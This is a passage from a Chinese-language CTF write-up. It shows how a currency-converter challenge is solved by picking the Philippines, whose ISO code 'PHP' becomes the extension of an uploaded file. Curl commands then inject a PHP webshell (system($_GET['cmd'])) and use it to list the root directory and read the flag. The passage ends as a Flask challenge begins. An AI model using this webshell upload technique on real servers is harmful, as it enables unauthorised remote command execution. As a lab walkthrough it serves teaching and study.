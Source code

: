 我們的目標逐漸明朗，我們要想辦法創建一個副檔名在 `.php .Php .pHp .phP .pHP .PHp .PHP` 中的一個檔案，因此，目標為: 找到一個國家，其 ISOname 可被當為 php 的副檔名。

接下來，我們就發現菲律賓的 ISO 為 `PHP`，之後將檔案內容傳入任意 webshell 即可拿下這題。

```php
...
"Paraguay" => array("ISO" => "PYG", "toTWD" => 0.87),
"Peru" => array("ISO" => "PEN", "toTWD" => 0.87),
"Philippines" => array("ISO" => "PHP", "toTWD" => 0.87),
"Pitcairn Islands" => array("ISO" => "NZD", "toTWD" => 0.87),
"Poland" => array("ISO" => "PLN", "toTWD" => 0.87),
"Portugal" => array("ISO" => "EUR", "toTWD" => 0.87),
...
```

payload by [chumy](https://blog.chummydns.com/):

```
curl http://<hostname>.challenge.tscctf.com/ -d "region=Philippines&amount=$(urlencode "<?php system(\$_GET['cmd']); ?>")"
curl "http://<hostname>.challenge.tscctf.com/upload/40794f0e819e11c567aca1deb14572bd.PHP?cmd=$(urlencode "ls /")"
curl "http://<hostname>.challenge.tscctf.com/upload/40794f0e819e11c567aca1deb14572bd.PHP?cmd=$(urlencode "cat /flag-8ZMuVdJW")"
```

## Normal Website

solve: 15/165

### description

This is just my normal website.

Dockerfile is in /app/Dockerfile

Author: Vincent55

### solution

這題一打開就會看到一個一直跳動的迴紋針（其實是個提示，不知道有沒有人聯想到 `pin` XD），跟這題是用 flask 寫的，除此之外應該沒什麼東西了。

![image](./assets/pin_loc.png)
